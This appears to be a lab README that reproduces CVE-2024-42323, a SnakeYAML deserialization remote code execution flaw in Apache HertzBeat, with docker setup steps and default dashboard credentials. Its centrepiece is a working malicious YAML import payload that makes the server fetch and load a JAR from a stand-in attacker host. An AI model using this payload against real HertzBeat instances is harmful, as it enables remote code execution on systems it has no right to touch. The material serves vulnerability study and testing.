

# Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring and alarm tool that supports monitoring of operating systems, middleware, databases, and more through its web interface.

In versions prior to 1.6.0, HertzBeat uses a vulnerable version of SnakeYAML library for parsing YAML files. When authenticated users import new monitoring types through the `/api/monitors/import` or `/api/alert/defines/import` APIs, they can provide specially crafted YAML content that triggers deserialization of untrusted data, potentially leading to remote code execution on the target system.

References:

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## Environment Setup

Execute the following command to start a vulnerable HertzBeat 1.4.4 instance:

```
docker compose up -d
```

After the service is started, you can access the HertzBeat dashboard at `http://your-ip:1157/dashboard`. The default login credentials are:

- Username: `admin`
- Password: `hertzbeat`

## Vulnerability Reproduction

First, you need to compile the yaml-payload project available at <https://github.com/fei9747/yaml-payload/>, and host the generated JAR file on a web server, for example, `http://evil.example.com:4444/yaml-payload.jar`.

Log into the dashboard, navigate to any monitor page and locate the import button. The interface allows users to import monitor configurations through YAML files:


We can craft a malicious YAML file that contains the following content, which attempts to load your malicious JAR file when deserialized:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://evil.example.com:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

When the malicious YAML file is imported through the web interface, HertzBeat will attempt to deserialize its contents, triggering the remote class loading:


If successful, the payload will execute on the target system. In this example, we can verify the execution by checking for the presence of a newly created file in the container:


